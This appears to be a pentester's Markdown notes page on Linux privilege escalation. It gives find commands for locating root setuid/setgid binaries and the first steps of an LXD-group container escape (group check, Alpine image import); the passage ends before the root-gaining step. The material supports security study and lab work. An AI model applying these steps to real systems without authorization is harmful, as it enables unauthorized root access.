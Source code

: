 - Restricted shell resource :
https://0xffsec.com/handbook/shells/restricted-shells/
### Permissions-based Privilege Escalation

**Special Permissions**
#setgid_setuid

- Find Root setgid and `setuid` : 
```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
#and
find / -uid 0 -perm -6000 -type f 2>/dev/null
```

- Ressources :
https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits

**LXC / LXD Exploitation**
#LXC_LXD

1. **Group Membership:**
   - User `devops` is a member of groups `devops` and `lxd`.
   - Command: 
     ```sh
     id
     ```
   - Output: `uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)`

2. **Unzipping Alpine Image:**
   - Command: 
     ```sh
     unzip alpine.zip
     ```
   - Output: Archive extraction details.

3. **LXD Initialization:**
   - Command: 
     ```sh
     lxd init
     ```
   - Prompts:
     - Configure new storage pool? (yes)
     - Storage backend (dir)
     - LXD over the network? (no)
     - Configure LXD bridge? (yes)

   - Error: `/usr/sbin/dpkg-reconfigure` must be run as root.

4. **Import Local Image:**
   - Command: 
     ```sh
     lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
     ```
   - Output: Image imported with fingerprint `be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b`
